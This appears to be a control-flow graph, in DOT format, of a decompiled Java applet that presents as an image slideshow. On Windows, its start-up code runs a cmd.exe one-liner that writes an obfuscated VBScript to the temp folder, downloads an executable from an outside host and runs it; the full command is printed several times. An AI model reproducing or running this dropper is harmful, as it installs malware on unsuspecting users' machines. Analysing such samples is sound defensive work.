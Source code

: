 digraph "" {
    "r0 := @this: C5C2I5A2"
    "push \"os.name\""
    "r0 := @this: C5C2I5A2"->"push \"os.name\"";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "push \"os.name\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String toLowerCase()>";
    "push \"win\""
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"->"push \"win\"";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"
    "push \"win\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "iflt load.r r0"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"iflt load.r r0";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "iflt load.r r0"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "push \"cmd.exe /c echo Const J9h1w0zHFgZtuRnPeXga = 1 > %temp%\\N5H5F4D4.vbs & echo Const KlOugdsfRh54h02ZPeXga = 2 >> %temp%\\N5H5F4D4.vbs & echo Dim ZC0YK16ggjQQ, Y5mJ5jSJXzm38lz, N8VObVe37C, YK16ggjQQ >> %temp%\\N5H5F4D4.vbs & echoZC0YK16ggjQQ = \\\"ADODB\\\" >> %temp%\\N5H5F4D4.vbs & echo ZC0YK16ggjQQ = \\\"ADODB\\\" >> %temp%\\N5H5F4D4.vbs &echo Y5mJ5jSJXzm38lz = \\\".Stream\\\" >> %temp%\\N5H5F4D4.vbs & echo Set N8VObVe37C = CreateObject(ZC0YK16ggjQQ+Y5mJ5jSJXzm38lz) >> %temp%\\N5H5F4D4.vbs & echo N8VObVe37C.Type = J9h1w0zHFgZtuRnPeXga >> %temp%\\N5H5F4D4.vbs & echo N8VObVe37C.Open >> %temp%\\N5H5F4D4.vbs & echo N8VObVe37C.Write BinaryGetURL(Wscript.Arguments(0)) >> %temp%\\N5H5F4D4.vbs & echo N8VObVe37C.SaveToFile Wscript.Arguments(1), KlOugdsfRh54h02ZPeXga >> %temp%\\N5H5F4D4.vbs & echo Function BinaryGetURL(URL) >> %temp%\\N5H5F4D4.vbs & echo Set YK16ggjQQ = CreateObject(\\\"WinHttp.WinHttpRequest.5.1\\\") >> %temp%\\N5H5F4D4.vbs & echo YK16ggjQQ.Open \\\"GET\\\", URL, False >> %temp%\\N5H5F4D4.vbs & echo YK16ggjQQ.Send >> %temp%\\N5H5F4D4.vbs & echo BinaryGetURL = YK16ggjQQ.ResponseBody >> %temp%\\N5H5F4D4.vbs & echo End Function >> %temp%\\N5H5F4D4.vbs & echo CreateObject(\\\"WScript.Shell\\\").Run \\\"%temp%\\R5J7O3R8.exe\\\" >> %temp%\\N5H5F4D4.vbs & start %temp%\\N5H5F4D4.vbs http://walidsat.fileave.com/1.exe  %temp%\\R5J7O3R8.exe\""
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"push \"cmd.exe /c echo Const J9h1w0zHFgZtuRnPeXga = 1 > %temp%\\N5H5F4D4.vbs & echo Const KlOugdsfRh54h02ZPeXga = 2 >> %temp%\\N5H5F4D4.vbs & echo Dim ZC0YK16ggjQQ, Y5mJ5jSJXzm38lz, N8VObVe37C, YK16ggjQQ >> %temp%\\N5H5F4D4.vbs & echoZC0YK16ggjQQ = \\\"ADODB\\\" >> %temp%\\N5H5F4D4.vbs & echo ZC0YK16ggjQQ = \\\"ADODB\\\" >> %temp%\\N5H5F4D4.vbs &echo Y5mJ5jSJXzm38lz = \\\".Stream\\\" >> %temp%\\N5H5F4D4.vbs & echo Set N8VObVe37C = CreateObject(ZC0YK16ggjQQ+Y5mJ5jSJXzm38lz) >> %temp%\\N5H5F4D4.vbs & echo N8VObVe37C.Type = J9h1w0zHFgZtuRnPeXga >> %temp%\\N5H5F4D4.vbs & echo N8VObVe37C.Open >> %temp%\\N5H5F4D4.vbs & echo N8VObVe37C.Write BinaryGetURL(Wscript.Arguments(0)) >> %temp%\\N5H5F4D4.vbs & echo N8VObVe37C.SaveToFile Wscript.Arguments(1), KlOugdsfRh54h02ZPeXga >> %temp%\\N5H5F4D4.vbs & echo Function BinaryGetURL(URL) >> %temp%\\N5H5F4D4.vbs & echo Set YK16ggjQQ = CreateObject(\\\"WinHttp.WinHttpRequest.5.1\\\") >> %temp%\\N5H5F4D4.vbs & echo YK16ggjQQ.Open \\\"GET\\\", URL, False >> %temp%\\N5H5F4D4.vbs & echo YK16ggjQQ.Send >> %temp%\\N5H5F4D4.vbs & echo BinaryGetURL = YK16ggjQQ.ResponseBody >> %temp%\\N5H5F4D4.vbs & echo End Function >> %temp%\\N5H5F4D4.vbs & echo CreateObject(\\\"WScript.Shell\\\").Run \\\"%temp%\\R5J7O3R8.exe\\\" >> %temp%\\N5H5F4D4.vbs & start %temp%\\N5H5F4D4.vbs http://walidsat.fileave.com/1.exe  %temp%\\R5J7O3R8.exe\"";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "push \"cmd.exe /c echo Const J9h1w0zHFgZtuRnPeXga = 1 > %temp%\\N5H5F4D4.vbs & echo Const KlOugdsfRh54h02ZPeXga = 2 >> %temp%\\N5H5F4D4.vbs & echo Dim ZC0YK16ggjQQ, Y5mJ5jSJXzm38lz, N8VObVe37C, YK16ggjQQ >> %temp%\\N5H5F4D4.vbs & echoZC0YK16ggjQQ = \\\"ADODB\\\" >> %temp%\\N5H5F4D4.vbs & echo ZC0YK16ggjQQ = \\\"ADODB\\\" >> %temp%\\N5H5F4D4.vbs &echo Y5mJ5jSJXzm38lz = \\\".Stream\\\" >> %temp%\\N5H5F4D4.vbs & echo Set N8VObVe37C = CreateObject(ZC0YK16ggjQQ+Y5mJ5jSJXzm38lz) >> %temp%\\N5H5F4D4.vbs & echo N8VObVe37C.Type = J9h1w0zHFgZtuRnPeXga >> %temp%\\N5H5F4D4.vbs & echo N8VObVe37C.Open >> %temp%\\N5H5F4D4.vbs & echo N8VObVe37C.Write BinaryGetURL(Wscript.Arguments(0)) >> %temp%\\N5H5F4D4.vbs & echo N8VObVe37C.SaveToFile Wscript.Arguments(1), KlOugdsfRh54h02ZPeXga >> %temp%\\N5H5F4D4.vbs & echo Function BinaryGetURL(URL) >> %temp%\\N5H5F4D4.vbs & echo Set YK16ggjQQ = CreateObject(\\\"WinHttp.WinHttpRequest.5.1\\\") >> %temp%\\N5H5F4D4.vbs & echo YK16ggjQQ.Open \\\"GET\\\", URL, False >> %temp%\\N5H5F4D4.vbs & echo YK16ggjQQ.Send >> %temp%\\N5H5F4D4.vbs & echo BinaryGetURL = YK16ggjQQ.ResponseBody >> %temp%\\N5H5F4D4.vbs & echo End Function >> %temp%\\N5H5F4D4.vbs & echo CreateObject(\\\"WScript.Shell\\\").Run \\\"%temp%\\R5J7O3R8.exe\\\" >> %temp%\\N5H5F4D4.vbs & start %temp%\\N5H5F4D4.vbs http://walidsat.fileave.com/1.exe  %temp%\\R5J7O3R8.exe\""->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "pop"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "goto load.r r0"
    "pop"->"goto load.r r0";
    "load.r r0"
    "goto load.r r0"->"load.r r0";
    "push -1"
    "load.r r0"->"push -1";
    "fieldput <C5C2I5A2: int w>"
    "push -1"->"fieldput <C5C2I5A2: int w>";
    "fieldput <C5C2I5A2: int w>"->"load.r r0";
    "load.r r0"->"push -1";
    "fieldput <C5C2I5A2: int h>"
    "push -1"->"fieldput <C5C2I5A2: int h>";
    "fieldput <C5C2I5A2: int h>"->"load.r r0";
    "push 0"
    "load.r r0"->"push 0";
    "fieldput <C5C2I5A2: boolean whb>"
    "push 0"->"fieldput <C5C2I5A2: boolean whb>";
    "fieldput <C5C2I5A2: boolean whb>"->"load.r r0";
    "staticget <java.awt.Color: java.awt.Color white>"
    "load.r r0"->"staticget <java.awt.Color: java.awt.Color white>";
    "specialinvoke <java.applet.Applet: void setBackground(java.awt.Color)>"
    "staticget <java.awt.Color: java.awt.Color white>"->"specialinvoke <java.applet.Applet: void setBackground(java.awt.Color)>";
    "specialinvoke <java.applet.Applet: void setBackground(java.awt.Color)>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"transition_delay\""
    "load.r r0"->"push \"transition_delay\"";
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"
    "push \"transition_delay\""->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "push 10"
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"push 10";
    "push 100"
    "push 10"->"push 100";
    "virtualinvoke <C5C2I5A2: int fi(java.lang.String,int,int)>"
    "push 100"->"virtualinvoke <C5C2I5A2: int fi(java.lang.String,int,int)>";
    "fieldput <C5C2I5A2: int dly>"
    "virtualinvoke <C5C2I5A2: int fi(java.lang.String,int,int)>"->"fieldput <C5C2I5A2: int dly>";
    "fieldput <C5C2I5A2: int dly>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"delay\""
    "load.r r0"->"push \"delay\"";
    "push \"delay\""->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"push 10";
    "push 1000"
    "push 10"->"push 1000";
    "push 1000"->"virtualinvoke <C5C2I5A2: int fi(java.lang.String,int,int)>";
    "fieldput <C5C2I5A2: int wp>"
    "virtualinvoke <C5C2I5A2: int fi(java.lang.String,int,int)>"->"fieldput <C5C2I5A2: int wp>";
    "fieldput <C5C2I5A2: int wp>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"step_count\""
    "load.r r0"->"push \"step_count\"";
    "push \"step_count\""->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"push 10";
    "push 20"
    "push 10"->"push 20";
    "push 20"->"virtualinvoke <C5C2I5A2: int fi(java.lang.String,int,int)>";
    "fieldput <C5C2I5A2: int sc>"
    "virtualinvoke <C5C2I5A2: int fi(java.lang.String,int,int)>"->"fieldput <C5C2I5A2: int sc>";
    "fieldput <C5C2I5A2: int sc>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"mode\""
    "load.r r0"->"push \"mode\"";
    "push \"mode\""->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"push 10";
    "push 10"->"push 0";
    "push 0"->"virtualinvoke <C5C2I5A2: int fi(java.lang.String,int,int)>";
    "fieldput <C5C2I5A2: int modd>"
    "virtualinvoke <C5C2I5A2: int fi(java.lang.String,int,int)>"->"fieldput <C5C2I5A2: int modd>";
    "fieldput <C5C2I5A2: int modd>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <C5C2I5A2: int modd>"
    "load.r r0"->"fieldget <C5C2I5A2: int modd>";
    "push 2"
    "fieldget <C5C2I5A2: int modd>"->"push 2";
    "rem.i"
    "push 2"->"rem.i";
    "rem.i"->"fieldput <C5C2I5A2: int modd>";
    "fieldput <C5C2I5A2: int modd>"->"load.r r0";
    "new java.awt.MediaTracker"
    "load.r r0"->"new java.awt.MediaTracker";
    "dup1.r"
    "new java.awt.MediaTracker"->"dup1.r";
    "dup1.r"->"load.r r0";
    "specialinvoke <java.awt.MediaTracker: void <init>(java.awt.Component)>"
    "load.r r0"->"specialinvoke <java.awt.MediaTracker: void <init>(java.awt.Component)>";
    "fieldput <C5C2I5A2: java.awt.MediaTracker tracker>"
    "specialinvoke <java.awt.MediaTracker: void <init>(java.awt.Component)>"->"fieldput <C5C2I5A2: java.awt.MediaTracker tracker>";
    "fieldput <C5C2I5A2: java.awt.MediaTracker tracker>"->"load.r r0";
    "push 1"
    "load.r r0"->"push 1";
    "fieldput <C5C2I5A2: int i>"
    "push 1"->"fieldput <C5C2I5A2: int i>";
    "fieldput <C5C2I5A2: int i>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"image_valign\""
    "load.r r0"->"push \"image_valign\"";
    "push \"image_valign\""->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "fieldput <C5C2I5A2: java.lang.String ivalign>"
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"fieldput <C5C2I5A2: java.lang.String ivalign>";
    "fieldput <C5C2I5A2: java.lang.String ivalign>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"image_align\""
    "load.r r0"->"push \"image_align\"";
    "push \"image_align\""->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "fieldput <C5C2I5A2: java.lang.String ialign>"
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"fieldput <C5C2I5A2: java.lang.String ialign>";
    "fieldput <C5C2I5A2: java.lang.String ialign>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "new java.lang.StringBuilder"
    "load.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"image\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"image\"";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "push \"image\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r0";
    "fieldget <C5C2I5A2: int i>"
    "load.r r0"->"fieldget <C5C2I5A2: int i>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(int)>"
    "fieldget <C5C2I5A2: int i>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(int)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "fieldput <C5C2I5A2: java.lang.String bs>"
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"fieldput <C5C2I5A2: java.lang.String bs>";
    "fieldput <C5C2I5A2: java.lang.String bs>"->"load.r r0";
    "fieldget <C5C2I5A2: java.lang.String bs>"
    "load.r r0"->"fieldget <C5C2I5A2: java.lang.String bs>";
    "ifnonnull load.r r0"
    "fieldget <C5C2I5A2: java.lang.String bs>"->"ifnonnull load.r r0";
    "ifnonnull load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <C5C2I5A2: int i>";
    "fieldget <C5C2I5A2: int i>"->"push 1";
    "sub.i"
    "push 1"->"sub.i";
    "sub.i"->"fieldput <C5C2I5A2: int i>";
    "fieldput <C5C2I5A2: int i>"->"load.r r0";
    "load.r r0"->"fieldget <C5C2I5A2: int i>";
    "fieldget <C5C2I5A2: int i>"->"iflt load.r r0";
    "iflt load.r r0"->"goto load.r r0";
    "goto load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <C5C2I5A2: int i>";
    "fieldput <C5C2I5A2: int num>"
    "fieldget <C5C2I5A2: int i>"->"fieldput <C5C2I5A2: int num>";
    "fieldput <C5C2I5A2: int num>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <C5C2I5A2: int num>"
    "load.r r0"->"fieldget <C5C2I5A2: int num>";
    "fieldget <C5C2I5A2: int num>"->"push 1";
    "add.i"
    "push 1"->"add.i";
    "newarray"
    "add.i"->"newarray";
    "fieldput <C5C2I5A2: java.awt.Image[] img>"
    "newarray"->"fieldput <C5C2I5A2: java.awt.Image[] img>";
    "fieldput <C5C2I5A2: java.awt.Image[] img>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <C5C2I5A2: int num>";
    "fieldget <C5C2I5A2: int num>"->"push 1";
    "push 1"->"add.i";
    "add.i"->"newarray";
    "fieldput <C5C2I5A2: int[] imgw>"
    "newarray"->"fieldput <C5C2I5A2: int[] imgw>";
    "fieldput <C5C2I5A2: int[] imgw>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <C5C2I5A2: int num>";
    "fieldget <C5C2I5A2: int num>"->"push 1";
    "push 1"->"add.i";
    "add.i"->"newarray";
    "fieldput <C5C2I5A2: int[] imgh>"
    "newarray"->"fieldput <C5C2I5A2: int[] imgh>";
    "fieldput <C5C2I5A2: int[] imgh>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <C5C2I5A2: int num>";
    "fieldget <C5C2I5A2: int num>"->"push 1";
    "push 1"->"add.i";
    "add.i"->"newarray";
    "fieldput <C5C2I5A2: int[] dur>"
    "newarray"->"fieldput <C5C2I5A2: int[] dur>";
    "fieldput <C5C2I5A2: int[] dur>"->"load.r r0";
    "load.r r0"->"push 1";
    "push 1"->"fieldput <C5C2I5A2: int i>";
    "fieldput <C5C2I5A2: int i>"->"load.r r0";
    "load.r r0"->"fieldget <C5C2I5A2: int i>";
    "fieldget <C5C2I5A2: int i>"->"load.r r0";
    "load.r r0"->"fieldget <C5C2I5A2: int num>";
    "ifcmpgt.i load.r r0"
    "fieldget <C5C2I5A2: int num>"->"ifcmpgt.i load.r r0";
    "ifcmpgt.i load.r r0"->"load.r r0";
    "fieldget <C5C2I5A2: java.awt.Image[] img>"
    "load.r r0"->"fieldget <C5C2I5A2: java.awt.Image[] img>";
    "fieldget <C5C2I5A2: java.awt.Image[] img>"->"load.r r0";
    "load.r r0"->"fieldget <C5C2I5A2: int i>";
    "fieldget <C5C2I5A2: int i>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "specialinvoke <java.applet.Applet: java.net.URL getCodeBase()>"
    "load.r r0"->"specialinvoke <java.applet.Applet: java.net.URL getCodeBase()>";
    "specialinvoke <java.applet.Applet: java.net.URL getCodeBase()>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r0";
    "new java.lang.StringBuffer"
    "load.r r0"->"new java.lang.StringBuffer";
    "new java.lang.StringBuffer"->"dup1.r";
    "specialinvoke <java.lang.StringBuffer: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuffer: void <init>()>";
    "specialinvoke <java.lang.StringBuffer: void <init>()>"->"push \"image\"";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"
    "push \"image\""->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r0";
    "load.r r0"->"fieldget <C5C2I5A2: int i>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(int)>"
    "fieldget <C5C2I5A2: int i>"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(int)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(int)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "specialinvoke <java.applet.Applet: java.awt.Image getImage(java.net.URL,java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.applet.Applet: java.awt.Image getImage(java.net.URL,java.lang.String)>";
    "arraywrite.r"
    "specialinvoke <java.applet.Applet: java.awt.Image getImage(java.net.URL,java.lang.String)>"->"arraywrite.r";
    "arraywrite.r"->"load.r r0";
    "fieldget <C5C2I5A2: java.awt.MediaTracker tracker>"
    "load.r r0"->"fieldget <C5C2I5A2: java.awt.MediaTracker tracker>";
    "fieldget <C5C2I5A2: java.awt.MediaTracker tracker>"->"load.r r0";
    "load.r r0"->"fieldget <C5C2I5A2: java.awt.Image[] img>";
    "fieldget <C5C2I5A2: java.awt.Image[] img>"->"load.r r0";
    "load.r r0"->"fieldget <C5C2I5A2: int i>";
    "arrayread.r"
    "fieldget <C5C2I5A2: int i>"->"arrayread.r";
    "arrayread.r"->"load.r r0";
    "load.r r0"->"fieldget <C5C2I5A2: int i>";
    "push 5"
    "fieldget <C5C2I5A2: int i>"->"push 5";
    "push 5"->"rem.i";
    "virtualinvoke <java.awt.MediaTracker: void addImage(java.awt.Image,int)>"
    "rem.i"->"virtualinvoke <java.awt.MediaTracker: void addImage(java.awt.Image,int)>";
    "virtualinvoke <java.awt.MediaTracker: void addImage(java.awt.Image,int)>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <C5C2I5A2: int i>";
    "fieldget <C5C2I5A2: int i>"->"push 1";
    "push 1"->"add.i";
    "add.i"->"fieldput <C5C2I5A2: int i>";
    "fieldput <C5C2I5A2: int i>"->"goto load.r r0";
    "ifcmpgt.i load.r r0"->"load.r r0";
    "load.r r0"->"push 0";
    "fieldput <C5C2I5A2: int durum>"
    "push 0"->"fieldput <C5C2I5A2: int durum>";
    "fieldput <C5C2I5A2: int durum>"->"load.r r0";
    "specialinvoke <java.applet.Applet: void show()>"
    "load.r r0"->"specialinvoke <java.applet.Applet: void show()>";
    "specialinvoke <java.applet.Applet: void show()>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "specialinvoke <java.applet.Applet: java.awt.Dimension size()>"
    "load.r r0"->"specialinvoke <java.applet.Applet: java.awt.Dimension size()>";
    "fieldget <java.awt.Dimension: int width>"
    "specialinvoke <java.applet.Applet: java.awt.Dimension size()>"->"fieldget <java.awt.Dimension: int width>";
    "fieldget <java.awt.Dimension: int width>"->"fieldput <C5C2I5A2: int w>";
    "fieldput <C5C2I5A2: int w>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"specialinvoke <java.applet.Applet: java.awt.Dimension size()>";
    "fieldget <java.awt.Dimension: int height>"
    "specialinvoke <java.applet.Applet: java.awt.Dimension size()>"->"fieldget <java.awt.Dimension: int height>";
    "fieldget <java.awt.Dimension: int height>"->"fieldput <C5C2I5A2: int h>";
    "fieldput <C5C2I5A2: int h>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <C5C2I5A2: int w>"
    "load.r r0"->"fieldget <C5C2I5A2: int w>";
    "fieldget <C5C2I5A2: int w>"->"load.r r0";
    "fieldget <C5C2I5A2: int h>"
    "load.r r0"->"fieldget <C5C2I5A2: int h>";
    "specialinvoke <java.applet.Applet: java.awt.Image createImage(int,int)>"
    "fieldget <C5C2I5A2: int h>"->"specialinvoke <java.applet.Applet: java.awt.Image createImage(int,int)>";
    "fieldput <C5C2I5A2: java.awt.Image offi>"
    "specialinvoke <java.applet.Applet: java.awt.Image createImage(int,int)>"->"fieldput <C5C2I5A2: java.awt.Image offi>";
    "fieldput <C5C2I5A2: java.awt.Image offi>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <C5C2I5A2: java.awt.Image offi>"
    "load.r r0"->"fieldget <C5C2I5A2: java.awt.Image offi>";
    "virtualinvoke <java.awt.Image: java.awt.Graphics getGraphics()>"
    "fieldget <C5C2I5A2: java.awt.Image offi>"->"virtualinvoke <java.awt.Image: java.awt.Graphics getGraphics()>";
    "fieldput <C5C2I5A2: java.awt.Graphics offg2>"
    "virtualinvoke <java.awt.Image: java.awt.Graphics getGraphics()>"->"fieldput <C5C2I5A2: java.awt.Graphics offg2>";
    "fieldput <C5C2I5A2: java.awt.Graphics offg2>"->"load.r r0";
    "fieldget <C5C2I5A2: java.awt.Graphics offg2>"
    "load.r r0"->"fieldget <C5C2I5A2: java.awt.Graphics offg2>";
    "fieldget <C5C2I5A2: java.awt.Graphics offg2>"->"push 0";
    "push 0"->"push 0";
    "push 0"->"load.r r0";
    "load.r r0"->"fieldget <C5C2I5A2: int w>";
    "fieldget <C5C2I5A2: int w>"->"load.r r0";
    "load.r r0"->"fieldget <C5C2I5A2: int h>";
    "virtualinvoke <java.awt.Graphics: void fillRect(int,int,int,int)>"
    "fieldget <C5C2I5A2: int h>"->"virtualinvoke <java.awt.Graphics: void fillRect(int,int,int,int)>";
    "virtualinvoke <java.awt.Graphics: void fillRect(int,int,int,int)>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "specialinvoke <java.applet.Applet: java.awt.Container getParent()>"
    "load.r r0"->"specialinvoke <java.applet.Applet: java.awt.Container getParent()>";
    "fieldput <C5C2I5A2: java.awt.Container container>"
    "specialinvoke <java.applet.Applet: java.awt.Container getParent()>"->"fieldput <C5C2I5A2: java.awt.Container container>";
    "fieldput <C5C2I5A2: java.awt.Container container>"->"load.r r0";
    "fieldget <C5C2I5A2: java.awt.Container container>"
    "load.r r0"->"fieldget <C5C2I5A2: java.awt.Container container>";
    "instanceof"
    "fieldget <C5C2I5A2: java.awt.Container container>"->"instanceof";
    "ifne load.r r0"
    "instanceof"->"ifne load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <C5C2I5A2: java.awt.Container container>";
    "virtualinvoke <java.awt.Container: java.awt.Container getParent()>"
    "fieldget <C5C2I5A2: java.awt.Container container>"->"virtualinvoke <java.awt.Container: java.awt.Container getParent()>";
    "virtualinvoke <java.awt.Container: java.awt.Container getParent()>"->"fieldput <C5C2I5A2: java.awt.Container container>";
    "fieldput <C5C2I5A2: java.awt.Container container>"->"goto load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <C5C2I5A2: java.awt.Container container>";
    "checkcast"
    "fieldget <C5C2I5A2: java.awt.Container container>"->"checkcast";
    "fieldput <C5C2I5A2: java.awt.Frame frm>"
    "checkcast"->"fieldput <C5C2I5A2: java.awt.Frame frm>";
    "fieldput <C5C2I5A2: java.awt.Frame frm>"->"load.r r0";
    "load.r r0"->"push 1";
    "push 1"->"fieldput <C5C2I5A2: boolean whb>";
    "return"
    "fieldput <C5C2I5A2: boolean whb>"->"return";
    "iflt load.r r0"->"load.r r0";
    "load.r r0"->"push 0";
    "push 0"->"fieldput <C5C2I5A2: int i>";
    "fieldput <C5C2I5A2: int i>"->"goto load.r r0";
    "ifnonnull load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <C5C2I5A2: java.lang.String bs>";
    "push \".gif\""
    "fieldget <C5C2I5A2: java.lang.String bs>"->"push \".gif\"";
    "virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>"
    "push \".gif\""->"virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>";
    "virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>"->"ifne load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <C5C2I5A2: java.lang.String bs>";
    "push \".jpg\""
    "fieldget <C5C2I5A2: java.lang.String bs>"->"push \".jpg\"";
